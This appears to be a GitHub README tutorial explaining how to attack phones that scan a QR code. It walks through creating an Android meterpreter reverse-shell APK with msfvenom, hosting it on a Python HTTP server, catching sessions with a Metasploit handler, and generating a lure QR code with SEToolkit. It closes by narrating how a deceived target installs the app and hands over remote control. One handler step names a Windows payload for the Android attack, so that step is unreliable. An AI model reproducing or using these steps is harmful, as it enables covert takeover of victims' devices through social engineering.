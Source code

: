 # IN THIS TOTURIAL YOU WILL LEARN HOW TO ATTACK DEVICES USING QR CODES WHO SCAN THEM.


##TERMINAL-1. 


STEP 1 -  sudo su 

STEP 2 -  cd Desktop

STEP 3 -  mkdir payload 

STEP 4 -  cd payload 

STEP 5 -  msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.74 LPORT=4444 R> filename.apk 

______________________________________________________________________________________________________________________________________________________________________________________

Here's what each option in the command means:
______________________________________________________________________________________________________________________________________________________________________________________

|–platform android: set the target platform to android

|-p android/meterpreter/reverse_tcp: set the payload to a reverse TCP meterpreter

|LHOST=192.168.0.74: set the local host to the kali linux machine ip address

|LPORT=4444: set the local port to whatever port you want

______________________________________________________________________________________________________________________________________________________________________________________

payload will be generated. Open the file explorer in kali,
look for the payload then open a new terminal in that location where there is payload.



## TERMINAL-2.

STEP   -  sudo cd /Desktop/payload

STEP 6 -  python3 -m http.server     (running a simple http server so that the payload can be downloaded on the victims machine.)

now go back to the TERMINAL-1.

STEP 7 -  use exploit/multi/handler      (command designed for creating reverse shell connections.)

STEP 8 -  set payload windows/meterpreter/reverse_tcp   

STEP 9 -  set LHOST 192.168.0.?       (set LHOST <Kali Linux IP> which was given in the payload as well)

STEP 10 -  set LPORT 4444               (set LPORT <port> the same port number that was given while creating the payload)

STEP 11 -  exploit        (to run the commands you can use either "exploit" or "run" command)

STEP 12 -  help       (to view the command that can be run after the sucessfull reverse shell of android)

# Remember, do not close the terminal.
_________________________________________________________________________________________________________________________________________________________________________________________


## TERMINAL-3.


STEP 13 - Open another terminal, type “setoolkit”, and press [Enter].

STEP 14 - Type “1” (to select “Social-Engineering Attacks”) and press [Enter].

STEP 15 - Next, type “8” (to select “QRCode Generator Attack Vector”) and press [Enter]. When requested, type the IP address you used before followed by “/” and the payload, in this case “test.apk”. 

The format is the following: “youripaddress/nameofthepayload.apk”.

STEP 16 - Exit SEToolkit and type “cd /root/.set/reports” to find the folder where the QR code has been saved. At this point, the threat actor must use social engineering to convince the target to scan the code.


# The target scans the QR code. He receives a request to download the application.
He is convinced that he is downloading an application he needs. Therefore, he follows the steps and successfully installs the app.
The moment the app is installed on the target’s device, the threat actor notices that a meterpreter session is now open. Typing “sysinfo” allows him to check if the operation has been successful.
After confirming the positive results, he types “help” to visualize the many commands that can be executed.









____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


